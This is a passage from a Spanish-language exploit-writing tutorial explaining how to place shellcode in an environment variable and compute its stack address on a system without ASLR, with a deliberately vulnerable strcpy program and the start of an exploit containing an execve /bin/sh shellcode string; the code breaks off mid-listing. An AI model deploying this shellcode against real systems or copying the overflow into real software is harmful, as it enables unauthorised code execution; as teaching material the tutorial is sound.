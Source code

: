 El principio que se emplea en el exploit para calcular la dirección del shellcode en el stack se basa en cómo se encuentra organizado el stack. En _el comienzo del stack_ (otro buen título), que, antaño era 0xbfffffff, encontramos simplemente un 0x00000000 indicador de que más allá es el fin del mundo, una señal para los navegantes incautos que osaban sobrepasar Finisterre… ejem, que me voy . Antes (o tras) del `NULL` encontramos el nombre del programa (no es `argv[0]`), y a continuación las variables del entorno.  
Por eso el método que se emplea para conocer la dirección del shellcode (introducido en una variable del entorno), es restar a 0xbfffffff primero 4 bytes (los del `NULL`), luego restar la longitud del nombre del programa (que está terminado con un byte nulo, de ahí el `-1` al final de la sentencia), y finalmente, para obtener la dirección del comienzo del shellcode (porque ya tenemos la dirección justo al final del shellcode), restamos la longitud del shellcode.

Hoy en día, el tope del stack se encuentra en 0xffffe000, siendo el último byte legible el 0xffffdfff. Y se termina con dos `NULL`‘s (en lugar de solo uno), por lo que el exploit habrá que modificarlo un poco.

**Aclarar primero que esto es aplicable solo a un sistema sin ASLR. Esta técnica es hoy en día más bien una curiosidad, a no ser que se consiga desactivar primero el ASLR por alguna mala configuración, esta técnica no es aplicable hoy en día. Tampoco hay que olvidarse de que hoy en día el stack no es ejecutable, luego esta técnica se podrá usar en conjunción con otras que primero nos den permisos de ejecución, como ROP.**

Nosotros explotaremos nuestro programita de siempre (porque el gcc actual convierte el stack de main() en un pantano), aunque con un buffer más pequeño, para hacerlo similar al de nuestro amigo:

    #include <stdio.h>
    #include <string.h>

void imprimir(char\* arg)  
{  
char buffer\[10\];  
strcpy(buffer, arg);  
}

int main(int argc, char\*\* argv)  
{  
imprimir(argv\[1\]);  
return 0;  
}

Y el exploit:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdint.h>

#define RELLENO 22  
#define RUTA «./vuln»

char shellcode\[\] =  
«x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50»  
«x53x89xe1x31xd2xb0x0bxcdx80»;

void panic(char\* s)  
{  
perror(s);  
exit(-1);  
}
